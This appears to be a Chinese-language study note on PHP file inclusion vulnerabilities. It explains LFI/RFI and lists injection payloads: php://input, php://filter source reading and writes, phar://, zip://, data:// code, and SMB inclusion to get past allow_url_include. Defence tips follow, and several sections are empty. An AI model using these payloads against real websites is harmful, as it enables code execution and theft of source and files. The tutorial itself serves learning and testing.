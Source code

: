 ## 文件包含

[toc]

漏洞概念及原理

漏洞危害

漏洞挖掘方法

漏洞利用条件

漏洞利用手法

漏洞利用的绕过

漏洞防范思路



### 概念或原理

后端具有包含功能的代码接收路径是攻击者可控的,导致包含了预期外的文件

### 漏洞危害

条件满足的情况下:

- 能够执行脚本代码
- 执行系统漏洞
- 读取系统敏感文件

### 漏洞分类

- LFI
- RFI

### include和require的区别

当要包含的文件不存在时，

- include会产生一个警告(Warning)，该语句后面的程序会继续执行；
- require则产生一个致命错误(Fatal error)，程序就此终止。

### include_once(require_once)和include(require)

- include会将指定的文件载入并执行里面的程序，重复引用包含多次；
- include_once函数会将指定的文件载入并执行里面的程序，如果该文件中已经被包含过，则不会再次包含。

### 远程文件包含的条件

一般情况下,需要php.ini中配置allow_url_include=on

### 文件包含漏洞利用方式

- 读取敏感文件、收集信息
- 执行代码和命令:上传文件后包含、构建远程资源并包含、利用php相关伪协议包含

### 典型的系统敏感文件

- Windows

  ```
  
  ```

- Linux

  ```
  
  ```

### php相关伪协议

#### php://input

打开一个文件输入流进行文件内容写入,一般通过POST请求方式写入文件内容

```php
?file=php://input
<?php phpinfo();?>	//脚本内容通过post提交
```

#### php://filter

打开一个文件输入输出流进行读写,常结合base64编码读写不可以直接读写的数据

```php
#读取:
# 明文读取
index.php?file1=php://filter/resource=file.txt

index.php?file1=php://filter/read=convert.base64-encode/resource=index.php	//读取index.php的代码并通过base64编码的方式输出



#写入:
# 明文写入
index.php?file2=php://filter/resource=test.txt&txt=Qftm

# base64编码写入Qftm到test.txt在中
index.php?file2=php://filter/write=convert.base64-encode/resource=test.txt&txt=Qftm
```

拓展文章

> https://www.anquanke.com/post/id/202510

#### phar://

用于压缩包.zip文件的读取,文件路径可以用绝对路径也可以用相对路径		要求php版本大于5.3.0

```php
?file=phar://../../dvwa/upload/123.zip/123.txt			#相对路径
?file=phar://c:/phpstudy/www/dvwa/upload/123.zip/123.txt	#绝对路径


https://best-sound.info/CKEdit/files/20220925223849.zip
```

#### zip://

功能和用法都和phar://差不多,但只能使用绝对路径,且压缩包内的路径需要用%23来代替/		要求php版本大于5.3.0

```php
zip://c:/phpstudy/www/dvwa/upload/123.zip%23123.txt
```

#### data://

打开一个文件输入流,写入文件内容,使用data://的时候,最好省略php语法中最后的?>

```php
data://text/plain,<?php phpinfo();?>

也可以通过编码传入
data://text/plain;base64,PD9waHAgcGhwaW5mbygpOw==		#<?php phpinfo();		使用编码需要省略?>,不然会报错
    
通过实验发现这个可能是编码的问题因为<?php phpinfo();?>在编成base64的时候出现了+。而浏览器不认识+号。所以解决方法
不写后面的?> 因为PHP里面其实不需要写后面的前面的;号就已经说明结束了。如果没有;号就必须写?>作为结束。
添加空格改变base64编码。
将+号换成%2b
```



### 文件包含漏洞防护思路

在保证功能正常的情况下

关闭allow_url_include

过滤前端输入的`.  .. /  \`

在生成被包含文件的路径字符串后进行正则检查

使用白名单,限定被包含文件的路径和文件名

配置open_basedir的值,限定读写范围

### 使用SMB包含文件(绕过allow_url_include=off)

- Windows

  在程序和功能打开SMB,然后新建一个文件夹,将脚本文件放在该文件夹内后,共享该文件夹并且添加everyone,即可实现文件共享

  ![image-20220925185302782](%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB.assets/image-20220925185302782.png)

  文件包含的时候,直接输入`\\主机名(IP地址或者计算机名称)\共享文件夹名称\文件名`即可包含该文件

  #### 绕过思路:过滤反斜杠

### session

储存位置:session的保存位置在php.ini中`session.save_path`字段设置

session的保存形式:	

### php://filter

# LINUX   locate

```bash
sudo locate /var/lib/mlocate/mlocate.db www
#即可列出系统中包含www的路径,可以用来包含文件
```



